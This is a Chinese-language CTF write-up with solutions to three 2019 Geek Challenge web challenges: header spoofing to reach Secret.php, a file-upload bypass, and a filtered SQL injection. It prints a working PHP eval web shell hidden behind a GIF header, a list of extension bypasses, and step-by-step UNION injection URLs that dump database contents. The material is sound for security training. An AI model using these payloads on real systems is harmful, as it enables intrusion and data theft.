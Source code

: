 **HTTP走私攻击（HTTP数据接收不同步攻击）**

## 0xD.[极客大挑战 2019]Http

找到Secret.php文件

说没有来自https://www.Sycsecret.com网站，加

```
Referer:https://www.Sycsecret.com
```

又说不是某个浏览器i，该user-agent

说只能来自本地：X-Forwarded-For:127.0.0.1

之后得到flag

```
Referer：来自哪个网站
User-agent：浏览器
x-forwarded-for：伪造IP
```

## 0xE.[极客大挑战 2019]Upload

文件上传，

常用一句话：

```
GIF89a? <script language="php">eval($_REQUEST[shell])</script>
```

绕过后缀：

```
php,php3,php4,php5,phtml,pht
```

更改文件类型：

```
image/jpeg
```

得到flag

## 0xF.[极客大挑战 2019]BabySQL

```
对or by 有过滤
用union select试下
check.php?username=admin&password=111 %27 uniounionn selecselectt 1,2,3%23

check.php?username=admin&password=111 %27 uniounionn selecselectt 1,group_concat(schema_name),3 frofromm infoorrmation_schema.schemata %23
可疑数据库：ctf

check.php?username=admin&password=111 %27 uniounionn selecselectt 1,group_concat(table_name),3 frofromm infoorrmation_schema.tables whewherere table_schema='ctf' %23
有Flag表

check.php?username=admin&password=111 %27 uniounionn selecselectt 1,group_concat(column_name),3 frofromm infoorrmation_schema.columns whewherere table_schema='ctf' aandnd column_name='Flag'%23
有flag

check.php?username=admin&password=111 %27 uniounionn selecselectt 1,flag,3 frofromm ctf.Flag%23
得到flag
```

